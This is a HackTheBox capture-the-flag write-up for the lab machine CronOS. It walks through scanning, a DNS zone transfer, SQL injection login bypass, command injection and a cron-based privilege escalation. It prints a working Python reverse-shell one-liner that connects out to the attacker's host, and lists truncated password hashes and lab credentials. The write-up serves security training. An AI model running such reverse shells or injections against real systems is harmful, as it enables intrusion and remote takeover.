 ```yaml
---
lang: "en"
classoption: oneside
code-block-font-size: \scriptsize
geometry: "a4paper"
geometry: "margin=2cm"
header-includes:
  - \usepackage{float}
  - \floatplacement{figure}{H}
  - \usepackage{xcolor}
  - \hypersetup{breaklinks=true,
                bookmarks=true,
                pdftitle="CronOS",
                pdfauthor="svachal (@7h3rAm)",
                pdfsubject='Writeup for HackTheBox VM CronOS',
                pdfkeywords="oscp htb linux",
                colorlinks=true,
                linkcolor=cyan,
                urlcolor=blue}
  - \usepackage{fvextra}
  - \DefineVerbatimEnvironment{Highlighting}{Verbatim}{breaklines,breakanywhere=true,commandchars=\\\{\}}
  - \usepackage{mathtools}
---
```


# [[HackTheBox] CronOS](https://www.hackthebox.eu/home/machines/profile/11)

**Date**: 13/Nov/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [htb](https://github.com/7h3rAm/writeups/search?q=htb&unscoped_q=htb), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron)  
**InfoCard**:  
![writeup.metadata.infocard](./infocard.png)

## Overview
This is a writeup for HackTheBox VM [Cronos](https://www.hackthebox.eu/home/machines/profile/11). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:


![writeup.overview.killchain](./killchain.png)


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Wed Nov 13 14:08:01 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.cronos/results/10.10.10.13/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.cronos/results/10.10.10.13/scans/xml/_quick_tcp_nmap.xml 10.10.10.13
Nmap scan report for 10.10.10.13
Host is up, received user-set (0.084s latency).
Scanned at 2019-11-13 14:08:02 PST for 23s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkOUbDfxsLPWvII72vC7hU4sfLkKVEqyHRpvPWV2+5s2S4kH0rS25C/R+pyGIKHF9LGWTqTChmTbcRJLZE4cJCCOEoIyoeXUZWMYJCqV8crflHiVG7Zx3wdUJ4yb54G6NlS4CQFwChHEH9xHlqsJhkpkYEnmKc+CvMzCbn6CZn9KayOuHPy5NEqTRIHObjIEhbrz2ho8+bKP43fJpWFEx0bAzFFGzU0fMEt8Mj5j71JEpSws4GEgMycq4lQMuw8g6Acf4AqvGC5zqpf2VRID0BDi3gdD1vvX2d67QzHJTPA5wgCk/KzoIAovEwGqjIvWnTzXLL8TilZI6/PV8wPHzn
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKWsTNMJT9n5sJr5U1iP8dcbkBrDMs4yp7RRAvuu10E6FmORRY/qrokZVNagS1SA9mC6eaxkgW6NBgBEggm3kfQ=
|   256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHBIQsAL/XR/HGmUzGZgRJe/1lQvrFWnODXvxQ1Dc+Zx
53/tcp open  domain  syn-ack ttl 63 ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 13 14:08:25 2019 -- 1 IP address (1 host up) scanned in 24.49 seconds

```

2\. We start with DNS enumeration and with a reverse lookup and find that the subdomain `ns1.cronos.htb` is associated with the target IP. Since DNS is responding on TCP, we also perform a DNS zone transfer and find additional subdomains associated with the target IP:  
``` {.python .numberLines}
dig +noall +answer -x 10.10.10.13 @10.10.10.13
host -t axfr cronos.htb 10.10.10.13

```

![writeup.enumeration.steps.2.1](./screenshot01.png)  

![writeup.enumeration.steps.2.2](./screenshot02.png)  

3\. Upon visiting the `admin.cronos.htb` subdomain, we are presented with a login page, that is vulnerable to SQL injection:  

![writeup.enumeration.steps.3.1](./screenshot03.png)  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp  |  ssh     |  OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
53/tcp  |  domain  |  ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp  |  http    |  Apache httpd 2.4.18 ((Ubuntu))
```

\newpage
## Phase #2: Exploitation
1\. We use SQLi to successfully bypass login and are presented with a page that allows running the `ping` and `traceroute` commands. The input field on this page is vulnerable to a command injection:  

![writeup.exploitation.steps.1.1](./screenshot04.png)  

2\. We use this to execute a Python reverse shell and get interactive access on the target system:  
``` {.python .numberLines}
nc -nlvp 443
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

![writeup.exploitation.steps.2.1](./screenshot05.png)  

![writeup.exploitation.steps.2.2](./screenshot06.png)  

3\. We obtain the first flag since the file is readable by current user `www-data`:  

![writeup.exploitation.steps.3.1](./screenshot07.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www-data@cronos> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@cronos>  
www-data@cronos> uname
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@cronos>  
www-data@cronos> ifconfig
ens160  Link encap:Ethernet  HWaddr 00:50:56:b9:26:e7
        inet addr:10.10.10.13  Bcast:10.10.10.255  Mask:255.255.255.0
        inet6 addr: dead:beef::250:56ff:feb9:26e7/64 Scope:Global
        inet6 addr: fe80::250:56ff:feb9:26e7/64 Scope:Link
        UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
        RX packets:1008552 errors:0 dropped:0 overruns:0 frame:0
        TX packets:687541 errors:0 dropped:0 overruns:0 carrier:0
        collisions:0 txqueuelen:1000
        RX bytes:157239763 (157.2 MB)  TX bytes:224790718 (224.7 MB)
www-data@cronos>  
www-data@cronos> users
root
noulis
```

\newpage
## Phase #3: Privilege Escalation
1\. While enumerating, we find hardcoded MySQL credentials for user `admin` within the `/var/www/admin/config.php` file. We use these credentials to connect to MySQL service and obtain password hash for user `admin`. We were unable to crack this hash:  

![writeup.privesc.steps.1.1](./screenshot08.png)  

![writeup.privesc.steps.1.2](./screenshot09.png)  

2\. Upon further enumeration, we find that there's a cronjob that run a PHP file every minute with `root` privileges. Luckily for us, the PHP file it runs is owned by current user `www-data`:  

![writeup.privesc.steps.2.1](./screenshot10.png)  

![writeup.privesc.steps.2.2](./screenshot11.png)  

3\. We can replace this file with a PHP reverse shell and catch the incoming shell to obtain elevated privileges:  

![writeup.privesc.steps.3.1](./screenshot12.png)  

![writeup.privesc.steps.3.2](./screenshot13.png)  

4\. We then view the contents of the `root.txt` file to complete the challenge:  

![writeup.privesc.steps.4.1](./screenshot14.png)  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$L2m6DJwN$p/xas4tCNp19sda4q2ZzGC82Ix7GiEb7xvCbzWCsFHs/eR82G4/YOnni/.L69tpCkOGo5lm0AU7zh9lP5........................
www-data:$6$SYixzIan$P3cvyztSwA1lmILF3kpKcqZpYSDONYwMwplB62RWu1RklKqIGCX1zleXuVwzxjLcpU6bhiW9N03AWkzVU........................
noulis:$6$ApsLg5.I$Zd9blHPGRHAQOab94HKuQFtJ8m7ob8MFnX6WIIr0Aah6pW/aZ.yA3T1iU13lCSixrh6NG1.GHPl.QbjHS........................
```
### Credentials
``` {.python .numberLines}
mysql: admin/kEjdbRigfBHURE.....
```
### Flags
``` {.python .numberLines}
/home/noulis/user.txt: 51d236438b333970dbba7...........
/root/root.txt: 1703b8a3c9a8dde879942c..........
```

## References
[+] <https://www.hackthebox.eu/home/machines/profile/11>  
[+] <https://www.youtube.com/watch?v=CYeVUmOar3I>  
[+] <https://medium.com/cronos-htb-walkthough/cronos-htb-walkthrough-9ef91750726>  

